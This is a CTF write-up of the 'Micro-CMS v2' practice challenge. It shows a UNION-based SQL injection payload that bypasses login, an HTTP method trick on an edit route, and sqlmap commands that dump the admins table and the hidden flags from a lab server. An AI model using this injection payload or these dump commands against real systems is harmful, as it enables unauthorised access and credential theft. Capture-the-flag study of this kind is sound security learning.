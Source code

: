 ```yaml
---
date: "2019-04-20"
title: "Micro-CMS v2"
category: "CTF"
---
```


CTF time !!
Let's find flags.
![alt text](https://media.giphy.com/media/sSmxfWnEVxtWU/giphy.gif)

### SQL Injection ~ 🚩(1/3)
Let's navigate to /login route (by clicking "Create a new page")
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Micro-CMS%20v2/login.jpg)

By giving username ' (single quote), we got an error page
```
  Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
  ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

Focus on this line
```SQL
SELECT password FROM admins WHERE username=\'%s\'' ....
```

What if the username is -> 'UNION SELECT "AAA" AS password WHERE '1' = '1
<br/>
Then query will become
```SQL
SELECT password FROM admins WHERE username='' UNION SELECT "AAA" AS password WHERE '1' = '1'
```

This query fools the server to authorize any username with password = 'AAA'
<br />
After login, we got the first 🚩 from 'Private Page'
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Micro-CMS%20v2/privatePage.jpg)


### Request Options ~ 🚩(2/3)
By making 'OPTIONS' request, we can get all available request methods.
<br />
Let's use httPIE
> http OPTIONS http://35.196.135.216:5001/5028781f57/page/edit/3

And we got
```
HTTP/1.1 200 OK
Allow: HEAD, GET, POST, OPTIONS
Connection: keep-alive
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Sun, 21 Apr 2019 00:26:14 GMT
Server: nginx/1.14.0 (Ubuntu)
```
How about trying to make POST request to this API route ?
Then we got
```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=utf-8
Date: Sun, 21 Apr 2019 00:27:49 GMT
Server: nginx/1.14.0 (Ubuntu)
Transfer-Encoding: chunked

^FLAG^0086ed8f02a35b35564b43376bf49a4de75465a274582411f48412a8f276f813$FLAG$
```

### Exploit Database ~ 🚩(3/3)
To exploit database, we might need to use sqlmap (http://sqlmap.org/)

Let's start with simple test
> sqlmap -u http://35.196.135.216:5001/bfcaf3cbda/login --data "username=a&password=b"

And we got 
```
...
[22:03:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0
[22:03:47] [INFO] fetching database names
[22:03:47] [INFO] used SQL query returns 4 entries
[22:03:48] [INFO] retrieved: 'information_schema'
[22:03:48] [INFO] retrieved: 'level2'
[22:03:48] [INFO] retrieved: 'mysql'
[22:03:48] [INFO] retrieved: 'performance_schema'
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema
```

Nice !!
It seems like database 'level2' is what we are looking for.
And 'username' is exploitable var.
Try the command to dump all data.
> sqlmap -u http://35.196.135.216:5001/bfcaf3cbda/login --data "username=a&password=b" -p username --dump

The result was
```
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | adella   | britteny |
+----+----------+----------+

Database: level2
Table: pages
[3 entries]
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
| 2  | Just testing some markdown functionality.\\n\\n![adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
| 3  | My secret is ^FLAG^b757c5b12ab66a482b0cbd036bd9cc3c36c7c3ee4c99020c8fb61aa787e04541$FLAG$                                                                                                                                                                                                                                      | Private Page        | 0      |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
```

Hmm ~~~ how about logging the (username, password) = ('adella', 'britteny')

Then we got flag :)

